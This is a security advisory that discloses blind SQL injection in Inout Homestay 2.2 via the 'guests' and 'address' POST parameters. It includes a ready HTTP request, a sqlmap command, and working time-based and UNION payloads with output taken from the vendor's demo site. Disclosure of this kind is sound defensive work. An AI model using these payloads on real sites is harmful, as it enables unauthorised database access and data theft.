


# Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-22
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
Exploit Detail      : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay is a rental portal application, it suffers from two blind SQL injection. Both POST parameters "guests" and "address" are vulnerable.
exploiting this vulnerablity will allow remote non-authenticated attackers not only to break the SQL syntax, but it is also possible to utilise a UNION SELECT query to reflect sensitive information such as the current database version, database users and collect system info. This could result in full information disclosure.
<br>

## Vulnerable Parameters: guests and address (POST)

<br>

Vulnerability File: index.php

<br>

### HTTP Post Request
`
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://inout-homestay.demo.inoutscripts.net/
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: inout-homestay.demo.inoutscripts.net
Connection: Keep-alive
address=3[inject_sql_here]&guests=-1[or_inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY
`
<br>
### Sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
`
<br>

### output:
`
Parameter: guests (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: address=3137 Laguna Street&guests=1' AND (SELECT 4341 FROM (SELECT(SLEEP(5)))uczv) AND 'bxOk'='bxOk&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: address=3137 Laguna Street&guests=1' UNION ALL SELECT NULL,NULL,CONCAT(0x717a6b7871,0x715266764977597043634c45437479454951476d57557270425449574466726644497a4b76734f77,0x7171767871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

[22:00:34] [INFO] testing MySQL
[22:00:34] [INFO] confirming MySQL
[22:00:43] [INFO] the back-end DBMS is MySQL
[22:00:43] [INFO] fetching banner
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.0
banner: '5.7.38-0ubuntu0.18.04.1'
[22:00:43] [INFO] fetching current user
current user: 'root@localhost'
[22:00:43] [INFO] fetching current database
current database: 'inout_homestay'
[22:00:43] [INFO] fetching database names
available databases [50]:

`
<br>

<br>

<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
